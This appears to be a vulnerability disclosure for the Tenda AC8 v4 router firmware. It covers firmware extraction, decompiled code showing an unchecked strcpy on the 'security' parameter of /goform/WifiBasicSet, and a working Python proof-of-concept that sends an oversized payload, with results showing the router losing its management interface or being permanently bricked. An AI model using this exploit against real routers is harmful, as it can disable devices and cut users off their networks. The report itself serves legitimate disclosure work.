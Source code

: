 # Tenda AC8 v4 V16.03.34.06 Vulnerability Report  

## Environment & Tool Versions Used:  
- Ubuntu 22.04  
- binwalk v2.2.1  
- IDA Pro 9.0  


## Environment Preparation  
Download the corresponding router firmware from the official website: https://tenda.com.cn/material/show/3518  
- Firmware: AC8 v4 Upgrade Software_V16.03.34.06  
- Software Version: V16.03.34.06  
- Update Date: November 29, 2024  
- File Size: 6.86 MB  
- File Format: zip  


After unzipping the downloaded zip file, use the binwalk tool to parse the firmware:  
```bash
binwalk -eM [firmware file]  # The latest binwalk version has poor parsing effect, so v2.2.1 is used here.
```  

After normal parsing, navigate to the `squashfs-root` directory. The router startup program path is `./bin/httpd`. Use the `file` command to check the program:  
```bash
file ./bin/httpd  
# Output: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mipsel.so.1, stripped
```  


## Vulnerability Proof  
In the `/goform/WifiBasicSet` endpoint, the `security` and `security_5g` parameters cause a stack overflow vulnerability. The `formWifiBasicSet` function calls `sub_45F3E8`, which proceeds through the following functions:  
`sub_45F3E8 -> sub_45E1C4 -> sub_45DC58`  

In `sub_45DC58`, the `strcpy` function at line 30 causes a stack overflow vulnerability.  

```c
int _fastcall sub_45DC58(int a1, int a2, const char *a3) {
    size_t v3; // $ve
    int mibname; // $ve
    int v6; // $ve
    char *src; // [sp+18h] [+18h]
    char v8[256]; // [sp+24h] [+24h] BYREF
    _BYTE v9[256]; // [sp+124h] [+124h] BYREF
    _BYTE v10[256]; // [sp+224h] [+224h] BYREF
    int v11; // [sp+324h] [+324h]

    memset(v8, 0, sizeof(v8));
    v11 = 256;
    memset(v9, 0, sizeof(v9));
    memset(v10, 0, sizeof(v10));
    v3 = strlen(a3);
    if (!strncmp(a3, "0", v3))
        src = websGetVar(a1, "security", (int)"none");
    else
        src = websGetVar(a1, "security_5g", (int)"none");
    if (!src)
        return 1;
    mibname = wifi_get_mibname(a2, "bss_security", v9);
    GetValue(mibname, v10);
    SetValue(v9, src);
    if (!strcmp(src, "wpapsk") || !strcmp(src, "wpa2psk") || strcmp(src, "wpawpa2psk"))
        SetValue(v9, "wpapsk");
    else
        SetValue(v9, src);
    strcpy(v8, src);
    v6 = wifi_get_mibname(a2, "bss_wpapsk_type", v9);
    GetValue(v6, v10);
    if (!strcmp(src, "wpapsk")) {
        SetValue(v9, "psk");
    } else if (!strcmp(src, "wpa2psk")) {
        SetValue(v9, "psk2");
    } else if (!strcmp(src, "wpawpa2psk")) {
        SetValue(v9, "psk+psk2");
    }
    return sub_45D91C(a1, a2, v8, a3);
}
```  

Without setting other parameters, the program will accept the `security` parameter in `sub_45DC58`. An attacker can input sufficiently long data into this parameter, causing a buffer overflow when the program executes the `strcpy` function.  


### POC (Proof of Concept)  
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0',
    "Cookie": "password=381acc5cfbc629c40245413ef90a4439mffcvb"  # If the router has a password, capture the cookie first.
}

url = "http://tendawifi.com"
url_vuln = url + "/goform/WifiBasicSet"

# payload = 'a'*0x100  # No stack overflow, router runs normally.
# payload = 'a'*(0x100+8)  # Not recommended; may brick the router.
payload = 'a'*0x1000  # Management interface returns to login page.

data = {
    'security': payload
}

response = requests.post(url_vuln, data=data, headers=headers)
print(response.text)
```  


#### Test Results  
1. When `payload = 'a'*0x100`:  
```bash
{"errCode":0}
```  

2. When `payload = 'a'*0x1000`:  
```bash
Traceback (most recent call last):
...
requests.exceptions.ConnectionError: HTTPConnectionPool(host='tendawifi.com', port=80): Max retries exceeded with url: /goform/WifiBasicSet (Caused by NewConnectionError(...))
```  
(The router's management interface returns to the login page, but other devices remain connected.)  

3. When `payload = 'a'*(0x100+8)`:  
The router crashes, disconnects all devices, and cannot be reconnected even after a reboot (requires customer service support for repair).  


**Note**: The vulnerability was confirmed through code auditing and real-world testing, although executing the POC in a QEMU virtual environment encountered runtime issues due to file permission configurations.

